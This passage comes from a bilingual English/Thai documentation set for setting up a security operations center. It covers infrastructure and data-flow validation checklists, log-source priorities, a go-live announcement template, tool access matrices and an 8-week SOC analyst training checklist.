| 11 | Import baseline detection rules | Detection Engineering | ☐ |
| 12 | Conduct initial health check validation | SOC Manager | ☐ |

## Pre-Flight Validation Checklist

Before declaring the SOC operational, validate every component:

### Infrastructure
```
□ SIEM server(s) provisioned and running
□ SIEM storage sized for 90-day hot retention
□ EDR management console accessible
□ EDR agents deployed to all endpoints (target: 95%+)
□ Network sensors deployed at critical egress points
□ Log forwarders (Filebeat/Winlogbeat/Syslog) running
□ Ticketing system configured with severity levels
□ SOAR platform connected to SIEM + EDR
```

### Data Flow Validation
```
□ Firewall logs → SIEM (test: block event visible in SIEM)
□ Active Directory logs → SIEM (test: logon event visible)
□ DNS logs → SIEM (test: DNS query visible)
□ Email gateway logs → SIEM (test: email event visible)
□ Endpoint logs → SIEM (test: process event visible)
□ VPN logs → SIEM (test: VPN connect visible)
□ Cloud audit trail → SIEM (test: API call visible)
```

### Alerting
```
□ At least 5 detection rules active
□ Test alert fires correctly (trigger and verify)
□ Alert routing to ticketing system works
□ Email/Slack/Teams notification works
□ Escalation phone tree tested
```

## Recommended Log Sources Priority

| Priority | Log Source | Why | EPS Estimate |
|:---|:---|:---|:---|
| 🔴 P1 | Firewall/IDS/IPS | Network perimeter visibility | 500-5,000 |
| 🔴 P1 | Active Directory (DC) | Authentication monitoring | 200-2,000 |
| 🔴 P1 | Email Gateway | Phishing detection | 100-1,000 |
| 🟠 P2 | DNS | C2 and tunneling detection | 1,000-10,000 |
| 🟠 P2 | EDR/Sysmon | Endpoint behavior analysis | 500-5,000 |
| 🟠 P2 | Web Proxy | Web-based threats | 500-5,000 |
| 🟡 P3 | VPN | Remote access monitoring | 50-500 |
| 🟡 P3 | Cloud Trail (AWS/Azure/GCP) | Cloud activity | 100-1,000 |
| 🟢 P4 | Database audit | Data access monitoring | 50-500 |
| 🟢 P4 | WAF | Web application attacks | 100-1,000 |

## Go-Live Notification Template

Send to all stakeholders when SOC is declared operational:

```markdown
Subject: 🟢 SOC Go-Live — [Organization Name] Security Operations Center Active

Dear Team,

I am pleased to announce that the Security Operations Center (SOC) is
now officially operational as of [DATE/TIME].

### What This Means
- 24/7 security monitoring is now active
- All security alerts will be triaged within [SLA] minutes
- Incident response procedures are in effect

### Key Contacts
- SOC Phone: [NUMBER]
- SOC Email: soc@company.com
- Emergency Escalation: [MANAGER NAME] — [PHONE]

### What You Should Do
1. Report suspicious emails to soc@company.com
2. Do NOT attempt to investigate security issues yourself
3. Call the SOC hotline for urgent security concerns

### Coverage Hours
- Monitoring: 24/7/365
- Tier 1 Response: 24/7
- Tier 2/3 Response: Business hours + on-call

Thank you for your cooperation in keeping our organization secure.

[CISO Name]
Chief Information Security Officer
```

## Related Documents
-   [Analyst Onboarding Path](../10_Training_Onboarding/Analyst_Onboarding_Path.en.md)
-   [Data Governance & Retention](../02_Platform_Operations/Database_Management.en.md)
-   [Deployment Procedures](../02_Platform_Operations/Deployment_Procedures.en.md)

## References
-   [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
-   [CISA SOC Best Practices](https://www.cisa.gov/topics/cyber-threats-and-advisories)


---

## File: 10_Training_Onboarding/System_Activation.th.md

# การติดตั้งโครงสร้างพื้นฐาน SOC มาตรฐาน (Standard SOC Infrastructure Setup)

เอกสารนี้ระบุข้อกำหนดและขั้นตอนการติดตั้งโครงสร้างพื้นฐานสำหรับศูนย์ปฏิบัติการความปลอดภัย (SOC) สมัยใหม่

## 1. องค์ประกอบหลัก (Core Components)

```mermaid
graph LR
    Logs[แหล่ง Log] -->|นำเข้า| SIEM[SIEM]
    Endpoints[เครื่องปลายทาง] -->|Agent| EDR[EDR]
    SIEM -->|แจ้งเตือน| SOAR[SOAR]
    EDR -->|แจ้งเตือน| SOAR
    SOAR -->|สร้าง Ticket| Ticket[Ticketing]
    Ticket -->|ติดตาม| Analyst[SOC Analyst]
```

SOC ที่สมบูรณ์จำเป็นต้องมีองค์ประกอบหลักดังนี้:

### 1.1 SIEM (Security Information and Event Management)
-   **วัตถุประสงค์**: รวบรวม Log จากศูนย์กลาง, วิเคราะห์ความสัมพันธ์ (Correlation), และแจ้งเตือน
-   **ข้อกำหนด**:
    -   มีความเสถียรและรองรับการขยายตัว (Scalability)
    -   ปฏิบัติตามนโยบายการเก็บข้อมูล (เช่น Hot 90 วัน, Cold 1 ปี)
    -   รองรับ Log format มาตรฐาน (Syslog, CEF, JSON)

### 1.2 EDR (Endpoint Detection and Response)
-   **วัตถุประสงค์**: ตรวจจับและป้องกันภัยคุกคามบนเครื่องปลายทางแบบ Real-time
-   **การติดตั้ง**: ต้องติดตั้ง Agent ลงบน Workstation, Server และทรัพย์สินสำคัญทั้งหมด
-   **นโยบาย**: บังคับใช้นโยบายป้องกัน (Block/Quarantine) สำหรับมัลแวร์ที่รู้จัก

### 1.3 SOAR (Security Orchestration, Automation, and Response)
-   **วัตถุประสงค์**: ทำงานซ้ำๆ แบบอัตโนมัติ และจัดการ Workflow การตอบสนองภัยคุกคาม
-   **การเชื่อมต่อ**: ต้องเชื่อมต่อกับ SIEM, EDR, และระบบ Ticketing ได้

### 1.4 Ticketing / Case Management
-   **วัตถุประสงค์**: ติดตามเหตุการณ์ (Incidents), การสืบสวน, และกิจกรรมของ Analyst
-   **Workflow**: เชื่อมโยงจาก Alert ใน SIEM ไปสู่การสร้าง Case ได้อย่างราบรื่น

## 2. การทำให้ระบบแข็งแกร่ง (Infrastructure Hardening)

### 2.1 การควบคุมการเข้าถึง (Access Control)
-   **MFA**: บังคับใช้ Multi-Factor Authentication สำหรับเครื่องมือ SOC ทั้งหมด
-   **RBAC**: กำหนดสิทธิ์ตามบทบาทหน้าที่ (Analyst, Engineer, Manager)
-   **Segmentation**: โครงสร้างพื้นฐาน SOC ควรอยู่ใน Network Zone ที่แยกส่วนและปลอดภัย

### 2.2 การเฝ้าระวัง (Monitoring)
-   **Health Checks**: ตรวจสอบสถานะและประสิทธิภาพของเครื่องมืออย่างต่อเนื่อง
-   **Audit Logs**: เปิดใช้งาน Audit Log สำหรับทุกการกระทำของ Analyst

## 3. สถาปัตยกรรมเครือข่าย (Network Architecture)

-   **Log Shippers**: ใช้ตัวส่ง Log (Forwarder) เพื่อส่งข้อมูลไปยัง SIEM อย่างปลอดภัย (เข้ารหัส TLS)
-   **Jump Host**: ใช้ Jump Host หรือ VPN ที่ปลอดภัยสำหรับการเข้าถึงระดับผู้ดูแลระบบ

## ตารางสิทธิ์เข้าถึงเครื่องมือ

| เครื่องมือ | Tier 1 | Tier 2 | Tier 3/IR | SOC Engineer | SOC Manager |
|:---|:---:|:---:|:---:|:---:|:---:|
| SIEM (อ่าน) | ✅ | ✅ | ✅ | ✅ | ✅ |
| SIEM (แก้ไข/Config) | ❌ | ❌ | ✅ | ✅ | ✅ |
| EDR (ดู/คัดกรอง) | ✅ | ✅ | ✅ | ✅ | ✅ |
| EDR (แยก/ควบคุม) | ❌ | ✅ | ✅ | ✅ | ✅ |
| SOAR (รัน Playbook) | ✅ | ✅ | ✅ | ✅ | ✅ |
| SOAR (ตั้งค่า Workflow) | ❌ | ❌ | ✅ | ✅ | ✅ |
| Ticketing (สร้าง/อัปเดต) | ✅ | ✅ | ✅ | ✅ | ✅ |
| Firewall (ดู Log) | ❌ | ✅ | ✅ | ✅ | ✅ |
| Firewall (Block) | ❌ | ❌ | ✅ | ✅ | ✅ |

## ตารางตรวจสุขภาพระบบ

| ส่วนประกอบ | การตรวจสอบ | ความถี่ | ผู้รับผิดชอบ |
|:---|:---|:---|:---|
| SIEM Indexing | ตรวจสอบ Parser ทั้งหมดทำงาน | รายชั่วโมง (อัตโนมัติ) | SOC Engineering |
| EDR Coverage | ตรวจสอบ Agent ≥95% | รายวัน | SOC Engineering |
| SOAR Connectivity | ทดสอบ Integration (API health) | รายวัน | SOC Engineering |
| Log Forwarding | ยืนยันแหล่ง Log สำคัญ | ทุกกะ | Shift Lead |
| Backup Status | ตรวจสอบการสำรองข้อมูลล่าสุด | รายวัน | SOC Engineering |

## Checklist ตรวจสอบก่อนเปิดใช้งาน

ก่อนประกาศว่า SOC พร้อมปฏิบัติการ ต้องตรวจทุก component:

### Infrastructure
```
□ SIEM server(s) จัดเตรียมและทำงานแล้ว
□ SIEM storage ขนาดรองรับ hot retention 90 วัน
□ EDR management console เข้าถึงได้
□ EDR agents deploy บนทุก endpoint (เป้า: 95%+)
□ Network sensors ติดตั้งที่จุด egress สำคัญ
□ Log forwarders (Filebeat/Winlogbeat/Syslog) ทำงาน
□ Ticketing system ตั้งค่า severity levels แล้ว
□ SOAR platform เชื่อมต่อ SIEM + EDR แล้ว
```

### ตรวจสอบ Data Flow
```
□ Firewall logs → SIEM (ทดสอบ: เห็น block event ใน SIEM)
□ Active Directory logs → SIEM (ทดสอบ: เห็น logon event)
□ DNS logs → SIEM (ทดสอบ: เห็น DNS query)
□ Email gateway logs → SIEM (ทดสอบ: เห็น email event)
□ Endpoint logs → SIEM (ทดสอบ: เห็น process event)
□ VPN logs → SIEM (ทดสอบ: เห็น VPN connect)
□ Cloud audit trail → SIEM (ทดสอบ: เห็น API call)
```

### การแจ้งเตือน
```
□ Detection rules ทำงานอย่างน้อย 5 ตัว
□ Test alert trigger ถูกต้อง
□ Alert routing ไป ticketing system ใช้งานได้
□ Email/Slack/Teams notification ใช้งานได้
□ Escalation phone tree ทดสอบแล้ว
```

## ลำดับความสำคัญ Log Sources

| ลำดับ | Log Source | เหตุผล | EPS ประมาณ |
|:---|:---|:---|:---|
| 🔴 P1 | Firewall/IDS/IPS | มองเห็น network perimeter | 500-5,000 |
| 🔴 P1 | Active Directory (DC) | ตรวจสอบ authentication | 200-2,000 |
| 🔴 P1 | Email Gateway | ตรวจจับ phishing | 100-1,000 |
| 🟠 P2 | DNS | ตรวจจับ C2 และ tunneling | 1,000-10,000 |
| 🟠 P2 | EDR/Sysmon | วิเคราะห์พฤติกรรม endpoint | 500-5,000 |
| 🟠 P2 | Web Proxy | ภัยคุกคามผ่านเว็บ | 500-5,000 |
| 🟡 P3 | VPN | ตรวจสอบ remote access | 50-500 |
| 🟡 P3 | Cloud Trail (AWS/Azure/GCP) | กิจกรรมคลาวด์ | 100-1,000 |
| 🟢 P4 | Database audit | ตรวจสอบการเข้าถึงข้อมูล | 50-500 |
| 🟢 P4 | WAF | การโจมตี web application | 100-1,000 |

## Template แจ้งเปิดใช้งาน Go-Live

ส่งให้ผู้มีส่วนเกี่ยวข้องเมื่อ SOC เริ่มปฏิบัติงาน:

```markdown
เรื่อง: 🟢 SOC Go-Live — ศูนย์ปฏิบัติการ Security [องค์กร] เริ่มทำงาน

เรียนทุกท่าน,

ขอแจ้งว่าศูนย์ปฏิบัติการ Security (SOC) เริ่มปฏิบัติงาน
อย่างเป็นทางการตั้งแต่ [วันที่/เวลา]

### ความหมาย
- ตรวจสอบ security 24/7 เริ่มทำงานแล้ว
- alert ด้าน security ทั้งหมดจะถูก triage ภายใน [SLA] นาที
- กระบวนการ incident response มีผลบังคับใช้

### ช่องทางติดต่อ
- โทรศัพท์ SOC: [หมายเลข]
- อีเมล SOC: soc@company.com
- Escalation ฉุกเฉิน: [ชื่อผู้จัดการ] — [โทรศัพท์]

### สิ่งที่ท่านควรทำ
1. แจ้งอีเมลน่าสงสัยที่ soc@company.com
2. อย่าสืบสวนปัญหา security ด้วยตัวเอง
3. โทรสายด่วน SOC สำหรับเรื่องเร่งด่วน

### เวลาให้บริการ
- ตรวจสอบ: 24/7/365
- Tier 1 Response: 24/7
- Tier 2/3 Response: เวลาทำการ + on-call

[ชื่อ CISO]
Chief Information Security Officer
```

## เอกสารที่เกี่ยวข้อง (Related Documents)
-   [หลักสูตรฝึกอบรม Analyst](../10_Training_Onboarding/Analyst_Onboarding_Path.th.md)
-   [ธรรมาภิบาลข้อมูล](../02_Platform_Operations/Database_Management.th.md)
-   [ขั้นตอนการ Deploy](../02_Platform_Operations/Deployment_Procedures.th.md)

### Activation Verification Checklist

| System | Check | Expected Result | Status |
|:---|:---|:---|:---|
| SIEM | Query test | Results in < 5s | ☐ |
| EDR | Agent status | All endpoints green | ☐ |
| Ticketing | Create test ticket | Auto-assign works | ☐ |
| TI Feed | IOC lookup | Results returned | ☐ |
| SOAR | Test playbook | Runs successfully | ☐ |

### Post-Activation Monitoring

| Check | Frequency | Duration |
|:---|:---|:---|
| System uptime | Every 5 min | 48 hrs |
| Alert accuracy | Hourly | 1 week |
| Log completeness | Daily | 2 weeks |

## References
-   [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
-   [CISA SOC Best Practices](https://www.cisa.gov/topics/cyber-threats-and-advisories)


---

## File: 10_Training_Onboarding/Training_Checklist.en.md

# Analyst Training Checklist

> **Purpose**: Structured 8-week onboarding program for new SOC analysts. Ensures comprehensive coverage of tools, processes, and procedures before production rotation.

---

**Analyst Name**: ____________________
**Start Date**: YYYY-MM-DD
**Mentor**: ____________________
**SOC Manager**: ____________________
**Target Completion**: 8 weeks

---

## Week 1: Environment & Access

| # | Task | Resource | Done |
|:---:|:---|:---|:---:|
| 1.1 | Receive laptop, badge, credentials | IT Ops | ☐ |
| 1.2 | Complete security clearance / NDA | HR + Legal | ☐ |
| 1.3 | Access provisioned: SIEM, EDR, SOAR, Ticketing | IAM Team | ☐ |
| 1.4 | Read: [System Activation](../10_Training_Onboarding/System_Activation.en.md) | Self-study | ☐ |
| 1.5 | Read: [Data Governance Policy](../07_Compliance_Privacy/Data_Governance_Policy.en.md) | Self-study | ☐ |
| 1.6 | Read: [Change Management (RFC)](../06_Operations_Management/Change_Management.en.md) | Self-study | ☐ |
| 1.7 | Tour: SOC facility, war room, escalation phones | Mentor | ☐ |

**✅ Checkpoint**: Successfully navigated SIEM Dashboard, can locate alert queue.
**Mentor Signature**: ________ **Date**: ________

---

## Week 2: SOC Operations

| # | Task | Resource | Done |
|:---:|:---|:---|:---:|
| 2.1 | Read: [Shift Handoff Standard](../06_Operations_Management/Shift_Handoff.en.md) | Self-study | ☐ |
| 2.2 | Read: [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md) | Self-study | ☐ |
| 2.3 | Read: [SOC Metrics & KPIs](../06_Operations_Management/SOC_Metrics.en.md) | Self-study | ☐ |
| 2.4 | Read: [SOC Communication SOP](../06_Operations_Management/SOC_Communication.en.md) | Self-study | ☐ |
| 2.5 | Shadow: Observe 2 complete shift handoffs | Shift Lead | ☐ |
| 2.6 | Practice: Complete a shift handover log (mock) | Mentor | ☐ |

**✅ Checkpoint**: Explain shift handoff process, identify escalation contacts.
**Mentor Signature**: ________ **Date**: ________

---

## Week 3: Incident Response Framework

| # | Task | Resource | Done |
|:---:|:---|:---|:---:|
| 3.1 | Read: [IR Framework (NIST)](../05_Incident_Response/Framework.en.md) | Self-study | ☐ |
| 3.2 | Read: [Severity Matrix](../05_Incident_Response/Severity_Matrix.en.md) | Self-study | ☐ |
| 3.3 | Read: [Incident Classification](../05_Incident_Response/Incident_Classification.en.md) | Self-study | ☐ |
| 3.4 | Review: [Incident Report Template](../11_Reporting_Templates/incident_report.en.md) | Self-study | ☐ |
| 3.5 | Shadow: Observe Tier 2 handling a real incident | Tier 2 Analyst | ☐ |
| 3.6 | Study: RACI matrix — know who does what | Self-study | ☐ |

**✅ Checkpoint**: Explain the 6 IR phases and containment decision criteria for Critical vs High severity.
**Mentor Signature**: ________ **Date**: ________

---

## Week 4: Playbooks (Core Set)

| # | Task | Resource | Done |
|:---:|:---|:---|:---:|
| 4.1 | Read: [PB-01 Phishing](../05_Incident_Response/Playbooks/Phishing.en.md) | Self-study | ☐ |
| 4.2 | Read: [PB-02 Ransomware](../05_Incident_Response/Playbooks/Ransomware.en.md) | Self-study | ☐ |
| 4.3 | Read: [PB-03 Malware Infection](../05_Incident_Response/Playbooks/Malware_Infection.en.md) | Self-study | ☐ |
| 4.4 | Read: [PB-04 Account Compromise](../05_Incident_Response/Playbooks/Account_Compromise.en.md) | Self-study | ☐ |
| 4.5 | Read: [PB-05 BEC](../05_Incident_Response/Playbooks/BEC.en.md) | Self-study | ☐ |
| 4.6 | Walk-through: Execute phishing playbook on a mock alert | Mentor | ☐ |
| 4.7 | Walk-through: Execute malware playbook on a mock alert | Mentor | ☐ |

**✅ Checkpoint**: Explain the "Containment" step for Ransomware; demonstrate phishing triage on mock alert.
**Mentor Signature**: ________ **Date**: ________

---

## Week 5: Detection & Threat Intelligence

| # | Task | Resource | Done |
|:---:|:---|:---|:---:|
| 5.1 | Read: [Content Management Lifecycle](../03_User_Guides/Content_Management.en.md) | Self-study | ☐ |
| 5.2 | Read: [Threat Intelligence Lifecycle](../06_Operations_Management/Threat_Intelligence_Lifecycle.en.md) | Self-study | ☐ |
| 5.3 | Review: Sigma Rules Library (browse 10 rules) | Self-study | ☐ |
| 5.4 | Read: [Log Source Matrix](../06_Operations_Management/Log_Source_Matrix.en.md) | Self-study | ☐ |
| 5.5 | Practice: Write a basic SIEM correlation search | Mentor | ☐ |
| 5.6 | Practice: Enrich an IoC using VirusTotal and URLScan | Mentor | ☐ |

**✅ Checkpoint**: Explain logic of `proc_office_spawn_powershell.yml` Sigma rule; demonstrate IoC enrichment.
**Mentor Signature**: ________ **Date**: ________

---

## Week 6: Compliance & Data Handling

| # | Task | Resource | Done |
|:---:|:---|:---|:---:|
| 6.1 | Read: [PDPA Compliance](../07_Compliance_Privacy/PDPA_Compliance.en.md) | Self-study | ☐ |
| 6.2 | Read: [Data Handling Protocol](../06_Operations_Management/Data_Handling_Protocol.en.md) | Self-study | ☐ |
| 6.3 | Read: [Evidence Handling](../05_Incident_Response/Forensic_Investigation.en.md) | Self-study | ☐ |
| 6.4 | Quiz: Data classification — what is PII, what requires notification? | Mentor | ☐ |

**✅ Checkpoint**: Correctly classify 5 data scenarios by PDPA requirements.
**Mentor Signature**: ________ **Date**: ________

---

## Week 7: Simulation & Testing

| # | Task | Resource | Done |
|:---:|:---|:---|:---:|
| 7.1 | Read: [Simulation Guide](../09_Simulation_Testing/Simulation_Guide.en.md) | Self-study | ☐ |
| 7.2 | Read: [Atomic Test Map](../09_Simulation_Testing/Atomic_Test_Map.en.md) | Self-study | ☐ |
| 7.3 | Execute: Atomic Red Team Test (T1059.001 — PowerShell) | Lab | ☐ |
| 7.4 | Execute: Atomic Red Team Test (T1566.001 — Spearphishing) | Lab | ☐ |
| 7.5 | Verify: Confirm SIEM detected both simulations | Lab | ☐ |
| 7.6 | Participate: Tabletop exercise (IR scenario) | SOC Team | ☐ |

**✅ Checkpoint**: Successfully executed 2 Atomic tests, verified detection in SIEM, participated in tabletop.
**Mentor Signature**: ________ **Date**: ________

---

## Week 8: Validation & Graduation

| # | Task | Resource | Done |
|:---:|:---|:---|:---:|
| 8.1 | Handle: 5 real alerts independently (with mentor oversight) | Production | ☐ |
| 8.2 | Submit: Mock Incident Report (full lifecycle) | Template | ☐ |
| 8.3 | Complete: Written assessment (30 questions) | SOC Manager | ☐ |
| 8.4 | Complete: Practical assessment (mock triage + escalation) | SOC Manager | ☐ |
| 8.5 | Conduct: 1 shift handoff as incoming lead (supervised) | Shift Lead | ☐ |

**✅ Final Assessment**:

| Criteria | Score | Pass/Fail |
|:---|:---:|:---:|
| Written Assessment (≥ 80%) | ____/100 | ☐ |
| Practical Assessment (≥ 80%) | ____/100 | ☐ |
| Mock Incident Report Quality | ____/5 | ☐ |
| Mentor Recommendation | Yes/No | ☐ |

**🎓 Final Sign-off**: Ready for Production Rotation.

| Role | Name | Signature | Date |
|:---|:---|:---|:---|
| Analyst | | | |
| Mentor | | | |
| SOC Manager | | | |

---

## Recommended Certifications

| Certification | Provider | Level | Recommended Timeline |
|:---|:---|:---|:---|
| CompTIA Security+ | CompTIA | Entry | Before start |
| CompTIA CySA+ | CompTIA | Intermediate | Within 6 months |
| GIAC GSOC | SANS | Intermediate | Within 1 year |
| SC-200 | Microsoft | Intermediate | Within 6 months |
| BTL1 | Security Blue Team | Entry–Intermediate | Within 6 months |

---

## Related Documents

- [Analyst Onboarding Path](Analyst_Onboarding_Path.en.md) — Detailed onboarding roadmap
- [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md) — Roles and career paths
- [Simulation Guide](../09_Simulation_Testing/Simulation_Guide.en.md) — Lab exercises
- [Incident Report Template](../11_Reporting_Templates/incident_report.en.md) — Report format

## References

- [SANS SOC Analyst Training](https://www.sans.org/cyber-security-courses/)
- [CompTIA CySA+ Certification](https://www.comptia.org/certifications/cybersecurity-analyst)
- [MITRE ATT&CK Training](https://attack.mitre.org/resources/training/)
- [Security Blue Team BTL1](https://www.securityblue.team/)


---

## File: 10_Training_Onboarding/Training_Checklist.th.md

# เช็คลิสต์การฝึกอบรม Analyst

> **วัตถุประสงค์**: โปรแกรมอบรม 8 สัปดาห์สำหรับ SOC analyst ใหม่ ครอบคลุมเครื่องมือ, กระบวนการ, และขั้นตอนปฏิบัติก่อนเข้ากะจริง

---

**ชื่อ Analyst**: ____________________
**วันที่เริ่ม**: YYYY-MM-DD
**พี่เลี้ยง (Mentor)**: ____________________
**SOC Manager**: ____________________
**เป้าหมายเสร็จสิ้น**: 8 สัปดาห์

---

## สัปดาห์ที่ 1: สภาพแวดล้อมและการเข้าถึง

| # | งาน | แหล่งข้อมูล | เสร็จ |
|:---:|:---|:---|:---:|
| 1.1 | รับ laptop, บัตรพนักงาน, credentials | IT Ops | ☐ |
| 1.2 | เซ็น NDA / security clearance | HR + Legal | ☐ |
| 1.3 | เปิดสิทธิ์: SIEM, EDR, SOAR, Ticketing | IAM Team | ☐ |
| 1.4 | อ่าน: [System Activation](../10_Training_Onboarding/System_Activation.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 1.5 | อ่าน: [Data Governance Policy](../07_Compliance_Privacy/Data_Governance_Policy.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 1.6 | อ่าน: [Change Management (RFC)](../06_Operations_Management/Change_Management.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 1.7 | ทัวร์: ห้อง SOC, war room, โทรศัพท์ escalation | Mentor | ☐ |

**✅ Checkpoint**: นำทาง SIEM Dashboard ได้สำเร็จ, หาคิว alert ได้
**ลายเซ็น Mentor**: ________ **วันที่**: ________

---

## สัปดาห์ที่ 2: การปฏิบัติงาน SOC

| # | งาน | แหล่งข้อมูล | เสร็จ |
|:---:|:---|:---|:---:|
| 2.1 | อ่าน: [มาตรฐานส่งมอบกะ](../06_Operations_Management/Shift_Handoff.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 2.2 | อ่าน: [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 2.3 | อ่าน: [ตัวชี้วัด SOC & KPIs](../06_Operations_Management/SOC_Metrics.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 2.4 | สังเกตการณ์: ดูการส่งมอบกะจริง 2 ครั้ง | Shift Lead | ☐ |
| 2.5 | ฝึก: เขียน shift handover log (จำลอง) | Mentor | ☐ |

**✅ Checkpoint**: อธิบายกระบวนการส่งมอบกะ, ระบุผู้ติดต่อ escalation ได้
**ลายเซ็น Mentor**: ________ **วันที่**: ________

---

## สัปดาห์ที่ 3: กรอบการตอบสนองต่อเหตุการณ์

| # | งาน | แหล่งข้อมูล | เสร็จ |
|:---:|:---|:---|:---:|
| 3.1 | อ่าน: [กรอบ IR (NIST)](../05_Incident_Response/Framework.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 3.2 | อ่าน: [Severity Matrix](../05_Incident_Response/Severity_Matrix.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 3.3 | อ่าน: [การจำแนกเหตุการณ์](../05_Incident_Response/Incident_Classification.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 3.4 | ดู: [แบบฟอร์ม Incident Report](../11_Reporting_Templates/incident_report.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 3.5 | สังเกตการณ์: ดู Tier 2 จัดการ incident จริง | Tier 2 Analyst | ☐ |
| 3.6 | เรียน: RACI matrix — รู้ว่าใครทำอะไร | ศึกษาด้วยตนเอง | ☐ |

**✅ Checkpoint**: อธิบาย 6 ขั้นตอน IR และเกณฑ์ตัดสินใจ containment สำหรับ Critical vs High
**ลายเซ็น Mentor**: ________ **วันที่**: ________

---

## สัปดาห์ที่ 4: Playbooks (ชุดหลัก)

| # | งาน | แหล่งข้อมูล | เสร็จ |
|:---:|:---|:---|:---:|
| 4.1 | อ่าน: [PB-01 Phishing](../05_Incident_Response/Playbooks/Phishing.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 4.2 | อ่าน: [PB-02 Ransomware](../05_Incident_Response/Playbooks/Ransomware.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 4.3 | อ่าน: [PB-03 Malware](../05_Incident_Response/Playbooks/Malware_Infection.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 4.4 | อ่าน: [PB-04 Account Compromise](../05_Incident_Response/Playbooks/Account_Compromise.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 4.5 | อ่าน: [PB-05 BEC](../05_Incident_Response/Playbooks/BEC.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 4.6 | ฝึก: ปฏิบัติตาม playbook phishing กับ alert จำลอง | Mentor | ☐ |
| 4.7 | ฝึก: ปฏิบัติตาม playbook malware กับ alert จำลอง | Mentor | ☐ |

**✅ Checkpoint**: อธิบายขั้นตอน "Containment" ของ Ransomware; สาธิต phishing triage
**ลายเซ็น Mentor**: ________ **วันที่**: ________

---

## สัปดาห์ที่ 5: การตรวจจับและข่าวกรองภัยคุกคาม

| # | งาน | แหล่งข้อมูล | เสร็จ |
|:---:|:---|:---|:---:|
| 5.1 | อ่าน: [Content Management Lifecycle](../03_User_Guides/Content_Management.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 5.2 | อ่าน: [Threat Intelligence Lifecycle](../06_Operations_Management/Threat_Intelligence_Lifecycle.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 5.3 | ดู: Sigma Rules Library (เรียกดู 10 rules) | ศึกษาด้วยตนเอง | ☐ |
| 5.4 | ฝึก: เขียน SIEM correlation search เบื้องต้น | Mentor | ☐ |
| 5.5 | ฝึก: Enrich IoC ด้วย VirusTotal และ URLScan | Mentor | ☐ |

**✅ Checkpoint**: อธิบาย logic ของ Sigma rule `proc_office_spawn_powershell.yml`; สาธิตการ enrich IoC
**ลายเซ็น Mentor**: ________ **วันที่**: ________

---

## สัปดาห์ที่ 6: Compliance และการจัดการข้อมูล

| # | งาน | แหล่งข้อมูล | เสร็จ |
|:---:|:---|:---|:---:|
| 6.1 | อ่าน: [PDPA Compliance](../07_Compliance_Privacy/PDPA_Compliance.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 6.2 | อ่าน: [Data Handling Protocol](../06_Operations_Management/Data_Handling_Protocol.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 6.3 | ตอบคำถาม: จำแนกข้อมูล — อะไรคือ PII, อะไรต้องแจ้งเตือน? | Mentor | ☐ |

**✅ Checkpoint**: จำแนก 5 สถานการณ์ข้อมูลตามข้อกำหนด PDPA ได้ถูกต้อง
**ลายเซ็น Mentor**: ________ **วันที่**: ________

---

## สัปดาห์ที่ 7: การจำลองและทดสอบ

| # | งาน | แหล่งข้อมูล | เสร็จ |
|:---:|:---|:---|:---:|
| 7.1 | อ่าน: [Simulation Guide](../09_Simulation_Testing/Simulation_Guide.th.md) | ศึกษาด้วยตนเอง | ☐ |
| 7.2 | ปฏิบัติ: Atomic Red Team Test (T1059.001 — PowerShell) | Lab | ☐ |
| 7.3 | ปฏิบัติ: Atomic Red Team Test (T1566.001 — Spearphishing) | Lab | ☐ |
| 7.4 | ตรวจสอบ: ยืนยัน SIEM ตรวจจับ simulation ทั้งสองได้ | Lab | ☐ |
| 7.5 | เข้าร่วม: การซ้อมแผน (Tabletop exercise) | ทีม SOC | ☐ |

**✅ Checkpoint**: ปฏิบัติ Atomic test สำเร็จ 2 รายการ, ยืนยันการตรวจจับใน SIEM, เข้าร่วม tabletop
**ลายเซ็น Mentor**: ________ **วันที่**: ________

---

## สัปดาห์ที่ 8: การประเมินและจบหลักสูตร

| # | งาน | แหล่งข้อมูล | เสร็จ |
|:---:|:---|:---|:---:|
| 8.1 | จัดการ: alert จริง 5 รายการด้วยตนเอง (มี mentor คอยดู) | Production | ☐ |
| 8.2 | ส่ง: Mock Incident Report (ครบวงจร) | Template | ☐ |
| 8.3 | สอบ: ข้อเขียน (30 ข้อ) | SOC Manager | ☐ |
| 8.4 | สอบ: ปฏิบัติ (triage + escalation จำลอง) | SOC Manager | ☐ |
| 8.5 | ปฏิบัติ: เป็น incoming lead ในการส่งมอบกะ 1 ครั้ง (มีคนดูแล) | Shift Lead | ☐ |

**✅ การประเมินขั้นสุดท้าย**:

| เกณฑ์ | คะแนน | ผ่าน/ไม่ผ่าน |
|:---|:---:|:---:|
| สอบข้อเขียน (≥ 80%) | ____/100 | ☐ |
| สอบปฏิบัติ (≥ 80%) | ____/100 | ☐ |
| คุณภาพ Mock Incident Report | ____/5 | ☐ |
| คำแนะนำจาก Mentor | ใช่/ไม่ | ☐ |

**🎓 ลงนามขั้นสุดท้าย**: พร้อมสำหรับการหมุนเวียนกะจริง

| บทบาท | ชื่อ | ลายเซ็น | วันที่ |
|:---|:---|:---|:---|
| Analyst | | | |
| Mentor | | | |
| SOC Manager | | | |

---

## ใบรับรองที่แนะนำ

| ใบรับรอง | ผู้ให้บริการ | ระดับ | ระยะเวลาแนะนำ |
|:---|:---|:---|:---|
| CompTIA Security+ | CompTIA | เริ่มต้น | ก่อนเริ่มงาน |
| CompTIA CySA+ | CompTIA | กลาง | ภายใน 6 เดือน |
